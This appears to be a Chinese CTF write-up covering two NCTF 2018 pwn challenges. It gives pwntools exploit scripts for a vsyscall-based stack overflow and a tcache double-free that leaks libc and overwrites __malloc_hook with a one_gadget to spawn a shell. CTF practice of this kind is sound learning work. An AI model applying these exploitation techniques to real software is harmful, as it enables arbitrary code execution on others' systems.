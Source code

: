 ```yaml
---
title: NCTF-部分Pwn题
date: 2018-12-02 19:34:51
tags: 题目
---
```

<h1><strong>0x00 babystack</strong></h1>
<h2>知识点</h2>
<ul>
	<li>通过vsyscall来bypass</li>
	<li>vsyscall只能从调用开始的地方开始 vsdo可以任意位置</li>
</ul>
<h2>exp</h2>

```python
from pwn import *
p=process('./babystack')
payload = 'a'*24 + p64(0xffffffffff600000)*2
#0xffffffffff600000为vsyscall起始地址 vmmap可查到vsyscall
#前24字节是溢出覆盖到ebp 后接ret不过连续调用了
'''
00:0000│ rsp  0x7fffffffe4a8 —▸ 0x555555554a22 ◂— 0xfdb4e800000000bf
01:0008│ rbp  0x7fffffffe4b0 —▸ 0x7fffffffe4c0 —▸ 0x555555554a50 ◂— 0x41ff894156415741
02:0010│      0x7fffffffe4b8 —▸ 0x555555554a3a ◂— 0xe8000000933d8d48
03:0018│      0x7fffffffe4c0 —▸ 0x555555554a50 ◂— 0x41ff894156415741
04:0020│      0x7fffffffe4c8 —▸ 0x7ffff7a2d830 (__libc_start_main+240) ◂— mov    edi, eax
05:0028│      0x7fffffffe4d0 ◂— 0x0
06:0030│      0x7fffffffe4d8 —▸ 0x7fffffffe5a8 —▸ 0x7fffffffe7e3 ◂— 0x65722f656d6f682f ('/home/re')
07:0038│      0x7fffffffe4e0 ◂— 0x1f7ffcca0
'''
#如上rsp为当前返回地址 ebp之后的0x55555554a3a为main函数 所以从rsp位置连续ret到main就可以
p.sendline(payload)
p.interactive()
```
<h1><strong>babytcache</strong></h1>
<h2>知识点</h2>
<ul>
	<li>tcache的fd指向堆头而不是身体</li>
	<li>伪造unsorted bin去leak libc地址</li>
	<li>double free改malloc_hook地址为one_gadget</li>
	<li>small chunk或者large chunk释放后fd bk指向main_arena的固定位置</li>
</ul>
<h2>exp</h2>

```python
#!/usr/bin/python
from pwn import *
p = process('./babytcache')
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')


def add(note):
   p.sendlineafter(">>","1")
   p.sendafter(":",note)

def delete(index):
   p.sendlineafter(">>","2")
   p.sendlineafter(":",str(index))

#先申请24个
for i in range(24):
   add("aaa\n")
#将1-7加入到tcache bin链中
for i in range(7):
   delete(i+1)

#free的0将会加入fastbin链
delete(0)
#因为7在fd中 free 7后它的fd指向0号的头而不是身体
delete(7)

add("bbb\n")
#修改0号的头 为small chunk
add(p64(0x30)+p64(0x451)+"\n")
#再次释放 fd bk指向main_arena固定位置处
delete(0)
p.sendlineafter(">>","3")
p.sendlineafter(":","0")
#常规leak地址
addt = u64(p.recv(6)+"\x00\x00")
addr = addt - 0x1b7ca0
log.info("addr:0x%x"% addr)
one_gadget=addr+0x4345e
malloc_hook=addr+libc.symbols['__malloc_hook']
#double free修改malloc_hook为one_gadget
delete(5)
delete(5)
log.info("malloc_hook:0x%x"%malloc_hook)
log.info("one_gadget:0x%x"%one_gadget)
add(p64(malloc_hook)+"\n")
add('aaa\n')
add(p64(one_gadget)+"\n")
p.sendlineafter(">>","1")
p.interactive()
```
虽然成功写入了one_gadget但还是没有成功 不知道问题是出在one_gadget上还是 申请malloc上 因为马上要考试了 暂且放一下 以后有时间继续研究

<h2>2018/12/5更新</h2>
找到了这道题问题所在..
原来libc中没有满足环境的one_gadget(自己也是第一次见)
在调试中改下one_gadget环境中需要满足的参数就可以

```python
 $ one_gadget /lib/x86_64-linux-gnu/libc.so.6
0x4345e	execve("/bin/sh", rsp+0x30, environ)
constraints:
  rax == NULL

0x434b2	execve("/bin/sh", rsp+0x30, environ)
constraints:
  [rsp+0x30] == NULL

0xe42ee	execve("/bin/sh", rsp+0x60, environ)
constraints:
  [rsp+0x60] == NULL
```
当然最好弄的就是第一个了..设置一下rax就可以了..